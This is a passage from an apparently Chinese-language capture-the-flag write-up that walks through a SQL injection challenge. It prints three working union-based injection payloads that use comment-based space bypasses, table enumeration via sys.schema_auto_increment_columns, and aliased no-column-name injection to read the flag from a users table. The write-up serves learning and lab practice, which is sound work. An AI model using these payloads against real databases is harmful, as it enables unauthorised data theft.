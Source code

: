 注意不要丢掉了别名a

我们直接贴出payload

查询表

```
title=ad'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_columns),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22&content=1&ac=add 
```

![在这里插入图片描述](img/882898bb8d3ba8b7c314fe26200451a0.png)表名ads,users

但是不知道列名，只能用无列名注入的方式，另外还过滤了反引号`，用别名a.2来代替，payload：

```
title=ad'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,1,'1&content=1&ac=add 
```

![在这里插入图片描述](img/a2fd5c07039ca827dce02b21670b582a.png)
第二列内容为flag，那么看看第三列

```
title=ad'/**/union/**/select/**/1,(select/**/a.3/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,1,'1&content=1&ac=add 
```

![在这里插入图片描述](img/457dc3b514e70bd84f2c706165777344.png)
得到flag
`其中a.2表示第一行是2的列，如果有两列都是2，则报错`
